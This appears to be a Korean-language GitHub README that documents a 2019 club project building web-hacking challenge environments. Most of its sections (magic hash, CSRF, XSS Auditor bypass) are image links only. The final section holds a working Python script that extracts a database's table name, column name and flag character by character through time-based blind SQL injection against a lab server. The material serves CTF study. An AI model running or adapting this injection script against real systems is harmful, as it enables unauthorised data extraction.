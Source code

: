 # 2019-self-web-hacking-challenge-document
**2019년 동아리에서 공부했던 해킹대회 문제환경 제작 기록**

---

# 1. Magic Hash PHP Trick
![image](https://user-images.githubusercontent.com/48134435/172830128-4bed9da5-9f81-48a3-97bc-3614e8c54d5f.png)
![image](https://user-images.githubusercontent.com/48134435/172830163-f2787ebd-f436-4e88-b7df-9bf15d6b8005.png)
![image](https://user-images.githubusercontent.com/48134435/172830174-60b7b881-98cb-4429-9fe1-ad39f40c4e96.png)
![image](https://user-images.githubusercontent.com/48134435/172830183-136750e1-6f8c-4efe-bf3d-dd0493ecd614.png)
![image](https://user-images.githubusercontent.com/48134435/172830197-4cd11050-d6e6-4165-996e-5dd2cc255d20.png)
![image](https://user-images.githubusercontent.com/48134435/172830211-e328968d-c540-49df-8e05-3671a3713caf.png)


# 2. Pentesting
![image](https://user-images.githubusercontent.com/48134435/172830286-a30c69c0-d79b-471c-ba9f-08c95a3b0c9e.png)
![image](https://user-images.githubusercontent.com/48134435/172830297-0c5a29c4-7d06-4cc2-b05f-aa307fed36c1.png)
![image](https://user-images.githubusercontent.com/48134435/172830472-18fca4c0-ef92-478f-bbe7-d5b6c266e112.png)
![image](https://user-images.githubusercontent.com/48134435/172830520-799887a2-4fe1-49a0-8a54-cd882288fc01.png)
![image](https://user-images.githubusercontent.com/48134435/172830538-fd626695-3a71-4b73-908c-7025969bb6a2.png)
![image](https://user-images.githubusercontent.com/48134435/172830549-b6249a6d-af06-47c5-9b73-be900a102bfb.png)
![image](https://user-images.githubusercontent.com/48134435/172830562-ccd2fab5-0dc1-48cf-bb04-5604450bbcce.png)


# 3. Django CSRF
![image](https://user-images.githubusercontent.com/48134435/172830722-425b8da8-d5c6-4d94-b394-429eeb4be3bc.png)
![image](https://user-images.githubusercontent.com/48134435/172830752-433b0919-ba73-459c-8abc-8d05359ccdbe.png)
![image](https://user-images.githubusercontent.com/48134435/172830761-5c799e20-4eb1-42f5-b70b-5bb94914aaef.png)
![image](https://user-images.githubusercontent.com/48134435/172830788-7cb0c7ae-f943-4ea9-ade9-b25c4b1be860.png)
![image](https://user-images.githubusercontent.com/48134435/172830797-fd8098da-68ad-49ee-938b-07b94f950a80.png)
![image](https://user-images.githubusercontent.com/48134435/172830813-48f2ef32-5c75-4669-b95a-75670bdf0daf.png)
![image](https://user-images.githubusercontent.com/48134435/172830841-d763e0a9-57b2-4fdc-92c6-222afa03a870.png)
![image](https://user-images.githubusercontent.com/48134435/172830861-e0ddc0e3-bf4b-4b24-b20c-147a7f5222bc.png)


# 4. XSS Auditor bypass
![image](https://user-images.githubusercontent.com/48134435/172830906-82857b73-5814-4e7d-b4ae-0c2106a961a2.png)
![image](https://user-images.githubusercontent.com/48134435/172830925-eb8faef9-48d8-4ac8-a5d9-dde4bc2d6b80.png)
![image](https://user-images.githubusercontent.com/48134435/172830937-ae8c469f-a9e4-493b-b527-ed6963984f5c.png)
![image](https://user-images.githubusercontent.com/48134435/172830943-4f7ba4c8-3702-4c34-a2dc-6803a837ee48.png)
![image](https://user-images.githubusercontent.com/48134435/172830955-f99a590f-e772-4469-b9aa-1219cd7d51e7.png)
![image](https://user-images.githubusercontent.com/48134435/172831063-da176e72-e654-477d-b3c0-8a4ce7175cdf.png)
![image](https://user-images.githubusercontent.com/48134435/172831109-7b0d4989-566d-4e19-8768-ec9f2deb6416.png)
![image](https://user-images.githubusercontent.com/48134435/172831151-ccbb04b2-648d-4caa-b127-c46603da6bfb.png)
![image](https://user-images.githubusercontent.com/48134435/172831254-aa0fe1e1-7ade-41e0-b807-6a011312c541.png)
![image](https://user-images.githubusercontent.com/48134435/172831446-219397d5-38c5-48ff-865f-ceb5b33186bd.png)


# 5. Time-Based Blind SQL injection
![image](https://user-images.githubusercontent.com/48134435/172831499-af3b2c80-c115-452a-935c-d520f632be45.png)
![image](https://user-images.githubusercontent.com/48134435/172831521-f2ad2827-d0dd-4135-9111-c1a433c75714.png)
![image](https://user-images.githubusercontent.com/48134435/172831561-56eda639-92a7-418b-9fab-8ddaced391b8.png)
![image](https://user-images.githubusercontent.com/48134435/172831579-27030614-bd6c-43c5-bafd-0a29ce5bd4ce.png)
![image](https://user-images.githubusercontent.com/48134435/172831587-60b9081f-e343-4bf8-af8a-db0defabda95.png)
![image](https://user-images.githubusercontent.com/48134435/172831606-0925ce9c-ac13-42d8-980b-0e28385abde6.png)
![image](https://user-images.githubusercontent.com/48134435/172831620-5718c18a-3bce-4fc8-b7b2-d792feab4d24.png)
```
import requests
import time
 
url = "http://192.168.200.201/index.php?p=search_Lion"
 
print ("[+] Start")
print ("[+] Find Table Name")
 
found = ""
for j in range(1, 10):
    for i in range(48, 128):
        try:
            t1=time.time()
            data = "'union/**/select/**/substr(column_name,1,10)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/&&/**/if(substr(table_name,"+str(j)+",1)='"+chr(i)+"',sleep(4),1)/**/&&/**/1^'"
            r = requests.post(url, data={'query': data})
            t2=time.time()
        except:
            print ("[-] Error occur")
            continue
 
        if t2-t1>1:
            found += chr(i)
            print ("[+] Found " + str(j), ":", found)
            break
 
print ("[+] Found Table : ", found)
print ("[+] End\n\n")
 
 
 
print ("[+] Start")
print ("[+] Find col Name")
 
found = ""
 
for j in range(1, 10):
    for i in range(48, 128):
        try:
            t1=time.time()
            data = "'union/**/select/**/substr(column_name,1,10)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/&&/**/if(substr(column_name,"+str(j)+",1)='"+chr(i)+"',sleep(4),1)/**/&&/**/1^'"
            r = requests.post(url, data={'query': data})
            t2=time.time()
        except:
            print ("[-] Error occur")
            continue
 
        if t2-t1>1:
            found += chr(i)
            print ("[+] Found " + str(j), ":", found)
            break
 
print ("[+] Found Column : ", found)
print ("[+] End\n\n")
 
 
print ("[+] Start")
print ("[+] Find Flag")
 
found = ""
 
for j in range(1, 13):
    for i in range(48, 128):
        try:
            t1=time.time()
            """'|| n4me NOT IN ("AC3_BeD","bR0$MAN","CO@LpIs","DrA9&PROD","EyEligntening","Family_L!on") && if(substr(n4me,1,1)=binary("P"),sleep(1),1) && 1^'"""
            data = """'||/**/n4me/**/NOT/**/IN/**/("AC3_BeD","bR0$MAN","CO@LpIs","DrA9&PROD","EyEligntening","Family_L!on")/**/&&/**/if(substr(n4me,"""+str(j)+""",1)=binary('"""+chr(i)+"""'),sleep(3),1)/**/&&/**/1^'"""
            r = requests.post(url, data={'query': data})
            t2=time.time()
        except:
            print ("[-] Error occur")
            continue
 
        if t2-t1>1:
            found += chr(i)
            print ("[+] Found " + str(j), ":", found)
            break
 
print ("[+] Found Flag : ", found)
print ("[+] End")

```

![image](https://user-images.githubusercontent.com/48134435/172831640-27af619c-1c0c-4013-bd25-ed4b71e01d6d.png)
